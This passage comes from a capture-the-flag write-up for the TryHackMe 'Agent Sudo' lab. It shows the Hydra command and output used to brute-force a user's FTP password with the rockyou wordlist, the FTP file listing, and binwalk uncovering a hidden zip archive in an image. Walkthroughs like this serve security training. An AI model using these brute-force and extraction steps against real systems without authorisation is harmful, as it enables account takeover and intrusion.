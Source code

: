 ## 3: FTP brute force : hydra

While SSH is the high-value target here, the THM room nudges us toward FTP. We use Hydra to brute-force the chris user's FTP password with the rockyou wordlist :

```console
┌──(kali㉿kali)-[~/Documents/tthm/agent-sudo]
└─$ hydra -l chris -P rockyou $IP ftp
...snip...
Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2021-09-17 22:25:59
[DATA] max 16 tasks per 1 server, overall 16 tasks, 14344399 login tries (l:1/p:14344399), ~896525 tries per task
[DATA] attacking ftp://10.10.14.34:21/
[21][ftp] host: 10.10.14.34   login: chris   password: PASSWORD
```
Connecting with the discovered password, we find three files : 

```console
┌──(kali㉿kali)-[~/Documents/tthm/agent-sudo]
└─$ ftp $IP
Connected to 10.10.14.34.
...snip...
150 Here comes the directory listing.
-rw-r--r--    1 0        0             217 Oct 29  2019 To_agentJ.txt
-rw-r--r--    1 0        0           33143 Oct 29  2019 cute-alien.jpg
-rw-r--r--    1 0        0           34842 Oct 29  2019 cutie.png
```

with the `To_agentJ.txt` file hinting at data "somehow stored" in the image files :

```console
┌──(kali㉿kali)-[~/Documents/tthm/agent-sudo]
└─$ cat To_agentJ.txt  
Dear agent J,

All these alien like photos are fake! Agent R stored the real picture inside your directory. Your login password is somehow stored in the fake picture. It shouldn't be a problem for you.

From,
Agent C
```

## 4: Steganography, data extraction 1 : binwalk, john

There is some trial and error here analysing the recovered files in various steg tools - for this guide, we'll stick to the happy path. Running binwalk on `cutie.png` reveals an embdedded zip archive : 

```console
┌──(kali㉿kali)-[~/Documents/tthm/agent-sudo]
└─$ binwbinwalk cutie.png

DECIMAL       HEXADECIMAL     DESCRIPTION
--------------------------------------------------------------------------------
0             0x0             PNG image, 528 x 528, 8-bit colormap, non-interlaced
869           0x365           Zlib compressed data, best compression
34562         0x8702          Zip archive data, encrypted compressed size: 98, uncompressed size: 86, name: To_agentR.txt
34820         0x8804          End of Zip archive, footer length: 22
```
